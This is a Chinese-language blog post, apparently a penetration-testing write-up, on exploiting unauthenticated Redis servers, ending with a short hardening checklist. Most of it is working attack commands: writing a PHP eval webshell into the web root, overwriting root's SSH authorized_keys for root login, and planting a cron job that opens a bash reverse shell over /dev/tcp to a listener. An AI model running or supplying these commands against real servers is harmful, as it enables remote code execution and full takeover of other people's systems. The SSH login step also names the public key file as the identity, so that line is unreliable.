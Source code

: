 ```yaml
---
layout: post
title: Redis安全总结
tags: [penetration]
---
```


1. 未授权访问
2. 获取webshell
3. 获取root
4. 通过redis提权
5. 其他的一些利用
6. redis安全配置




```
测试环境 CentOS 6.5 x64
```

**未授权访问**

默认安装redis，其中启动权限就为root。并且是任意ip可以未授权访问。

![2276273468](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2276273468.jpg)

![91190645](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-91190645.jpg)


* * *

**获取webshell**
条件：知道web绝对路径，redis运行的用户需要对web目录要有写的权限

http://10.211.55.10/phpinfo.php

然后通过客户端链接

redis-cli -h 10.211.55.10

```
config set dir /var/www/html/

set shell <?php eval($_REQUEST[\'syclover\'])?>

config set dbfilename syclover.php

save

exit
```
存在的问题,如果redis里面的数据量特别大并且前面存在<?php 之类的符号

先通过randomkey来查看键值之间的规律，然后可以将数据库备份下来，找到包含<?php 的键名，通过 keys \*str\*找到真正的键名，然后去修改这个键名。因为数据量很大所以备份的shell也很大，然后在生成shell的时候，可以设置不超时，并且在生成完成之后就退出。

* * *

**获取root**

```
victim server CentOS6.6+redis2.4  192.168.192.133

attack server CentOS6.6  192.168.192.132

```

先在attack server生成一个公钥

```
 ssh-keygen -t rsa -C "redis"
(echo -e "\n\n"; cat redis.pub; echo -e "\n\n") > redis.txt
```
然后执行

```
redis-cli -h 192.168.192.133 flushall

cat redis.txt | redis-cli -h 192.168.192.133 -x set pwn

```
登录redis  redis-cli -h 192.168.192.133

```
CONFIG set dir /root/.ssh/
config set dbfilename "authorized_keys"
save
exit
```
然后就可以使用ssh的私钥登录了

```
ssh -i redis.pub root@192.168.192.133
```
![2436203329](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2436203329.png)



缺点：flushall 太暴力直接清空数据库，覆盖authorized_keys，导致原有的认证失效。

**通过redis提权**
获取了一个webshell，但是权限很低，发现存在redis服务但是只能本地访问。然后通过上面的方法可以成功提权


* * *

**其他玩法**

redis+crontab

```
redis-cli config set dir /var/spool/cron/

redis-cli config set dbfilename root

echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/8443 0>&1 \n\n"|redis-cli -x set 1

redis-cli save

nc -lvv 8443
```

* * *


**redis安全配置**

1. 设置只对本机开放  bind 127.0.0.1
2. 设置密码         requirepass tomato
3. 修改默认端口      12345
4. 低权限启动
5. 如果需要对外提供服务的话，设置iptables规则


**参考**

[http://antirez.com/news/96](http://antirez.com/news/96)

[http://zone.wooyun.org/content/23858](http://zone.wooyun.org/content/23858)

